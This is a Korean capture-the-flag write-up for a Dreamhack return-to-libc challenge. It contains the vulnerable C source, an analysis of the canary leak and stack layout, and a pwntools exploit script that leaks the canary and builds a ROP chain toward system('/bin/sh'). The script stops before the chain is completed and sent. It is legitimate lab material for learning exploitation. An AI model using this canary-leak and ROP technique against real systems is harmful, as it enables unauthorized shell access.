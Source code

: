 # return to library
## 문제 코드
<code>
	// Name: rtl.c
	// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

	#include <stdio.h>
	#include <unistd.h>

	const char* binsh = "/bin/sh";

	int main() {
	  char buf[0x30];

	  setvbuf(stdin, 0, _IONBF, 0);
	  setvbuf(stdout, 0, _IONBF, 0);

	  // Add system function to plt's entry
	  system("echo 'system@plt");

	  // Leak canary
	  printf("[1] Leak Canary\n");
	  printf("Buf: ");
	  read(0, buf, 0x100);
	  printf("Buf: %s\n", buf);

	  // Overwrite return address
	  printf("[2] Overwrite return address\n");
	  printf("Buf: ");
	  read(0, buf, 0x100);

	  return 0;
	}
</code>

## 보호 기법
* 64bit
* canary found
* NX enabled

## 코드 분석
1. read함수로 buf~canary 거리 + 1만큼 입력을 주어 canary 앞 \x00을 제거하면 printf함수로 카나리를 출력할 수 있다.
2. read 함수로 buf에 0x30보다 훨씬 큰 0x100 크기의 입력을 받고 있기 때문에 버퍼 오버플로우 공격이 가능함.

## 스택 구조

RET - RBP - \x00+canary - dummy - buf

## 카나리 릭
buf ~ rbp의 거리는 56. \0xx 값까지 해서 총 57개를 쏟아부으면 된다.

## payload

<code>
	#!/usr/bin/env python3

	from pwn import *

	p = remote('host3.dreamhack.games', 12126)
	e = ELF('./rtl')

	def slog(name, addr):
	    return success(': '.join([name, hex(addr)]))

	#[1] Leak Canary
	buf = b'A' * 0x39
	p.sendafter(b'Buf: ', buf)
	p.recvuntil(buf)

	cnry = u64(b'\x00' + p.recvn(7))

	slog('canary', cnry)

	#[2] Exploit
	system_plt = e.plt['system']
	binsh = 0x400874
	pop_rdi = 0x0000000000400853
	ret = 0x0000000000400285

	payload = b'A' * 0x38 + p64(cnry) + b'B'*0x8
	payload += p64(ret) # align stack to prevent errors caused by movaps
	payload += p64(pop_rdi)
	payload += p64(binsh)

	</code>

------------------------------------------------










